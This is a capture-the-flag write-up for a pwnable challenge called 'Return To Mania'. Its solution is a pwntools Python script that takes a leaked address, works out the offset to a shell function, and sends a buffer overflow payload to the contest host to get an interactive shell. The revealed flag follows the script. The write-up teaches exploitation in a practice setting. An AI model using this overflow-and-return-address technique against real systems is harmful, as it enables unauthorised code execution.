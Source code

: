 # **Return To Mania**

#### tag : pwnable

-----------------------------------------------

#### Description

>To celebrate her new return to wrestling, Captn Overflow authored this challenge to enter the ring
>
>nc ret.sunshinectf.org 4301
>
>Author: bambu

-----------------------------------------------

#### Solution

```python
from pwn import *

r = remote('ret.sunshinectf.org', 4301)

# leak shell address by calculating offset
r.recvuntil(': ')
leak = int(r.recvuntil('\n')[:-1],16)
leak2 = leak - (0x6ed - 0x65d)

# simple buffer over flow
r.sendline('a' * 0x16 + p32(leak2))
r.interactive()
```
**sun{0V3rfl0w_rUn_w!Ld_br0th3r}**
